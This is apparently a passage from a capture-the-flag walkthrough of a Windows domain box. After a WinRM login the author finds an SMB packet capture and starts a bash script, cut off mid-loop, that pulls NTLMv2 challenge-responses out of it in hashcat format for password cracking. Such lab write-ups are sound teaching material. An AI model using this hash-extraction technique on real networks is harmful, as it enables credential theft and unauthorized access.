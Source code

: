 So we have Sara.b who's a member of help desk, and other possibly interesting users, could be the `Domain CRA Managers`, `Finance`, `Marketing`, or `Domain Storage Managers` 

Logging in via winrm with the sara.b user already reveals something interesting.
```powershell
gci -recurse
```

```


    Directory: C:\Users\Sara.B\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/4/2024  12:53 AM                WS-01


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap
```


a pcap file, and a description, which tells us there's some bugginess going with the WS-01 computer with smb authentication. So let's investigate this pcap file. 
Downloading it checking what kind of packets we have.
```bash
tshark -r WS-01_PktMon.pcap -T fields -e tcp.dstport -e udp.dstport | sort -nu | head

        53
88
135
        389
445
49667
49673
49692
49693
```

We have some DNS, some kerberos (oddly), some RPC, LDAP, and SMB.

The issue was the SMB initially so we can actually grab all the ntlm hashes and see if we can crack any, since credentials were given. This script I devised outputs them in hashcat format, since there's quite a bit, you never know if they mistyped and had *close* credentials that could be cracked.
```bash
#!/usr/bin/env bash

pcap=$1


data_dump=$(tshark -r $pcap -Y 'ntlmssp' -T fields -e ntlmssp.auth.username -e ntlmssp.ntlmserverchallenge  -e ntlmssp.ntlmv2_response.nb_domain_name -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.ntlmv2_response | sed '/^[[:space:]]*$/d')

mapfile -t lines <<< "$data_dump"

for (( i=0; i<${#lines[@]}-1; i+=2)); do
    challenge=$(echo -n "${lines[i]}"  | tr -d '[:space:]')
    IFS=$'\t' read -r user domain ntproof full_blob <<< "${lines[i+1]}"
    if [[ -n "$user" && -n "$domain" && -n "$challenge" && -n "$ntproof" && -n "$full_blob" ]]; then
```